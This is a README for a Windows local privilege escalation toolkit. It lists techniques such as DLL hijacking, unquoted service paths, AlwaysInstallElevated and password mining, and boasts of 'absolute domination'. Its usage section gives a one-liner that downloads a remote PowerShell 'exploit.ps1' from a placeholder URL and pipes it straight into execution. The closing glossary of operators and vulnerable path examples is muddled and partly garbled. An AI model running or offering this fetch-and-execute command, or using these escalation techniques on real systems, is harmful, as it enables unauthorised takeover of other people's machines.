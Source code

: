 
# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro


Primary focused to escalate privileges: 

    - DLL Hijacking

    - Service binPath
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry
    
    - Service ExecFile

    - Registry Autorun
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task
    
    - Startup Application

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

<> operator
- dash
/ shash
\ revers-shlash
= equal
$ val / def
' quot
" double quot

Absolute Path in quotes:
 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
